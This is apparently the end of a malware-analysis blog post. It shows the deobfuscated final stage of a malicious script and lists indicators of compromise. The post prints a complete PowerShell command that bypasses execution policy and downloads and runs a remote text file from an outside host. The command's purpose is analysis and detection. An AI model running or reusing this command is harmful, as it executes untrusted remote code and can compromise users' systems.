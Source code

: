![](/images/jsdeobf/image32.png)

here is the full script.

{% highlight ps1 %}
"powershell -ExecutionPolicy Bypass -NoProfile -Command \"[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-Expression (New-Object Net.WebClient).DownloadString('https://compactgrill.hu/care.txt')\""
{% endhighlight %}

As appears here, the final goal for the script is to download a script stored in a text file on a remote server and run it using PowerShell.

## IOCs

{% highlight text %}
da13cd92728c03754d8d81783946bc936d078669af24cbe4133f72c0ae14e2ae

hxxps[:]//compactgrill[.]hu/care.txt

{% endhighlight %}


This blog is authored by **Mostafa Farghaly(M4lcode)**.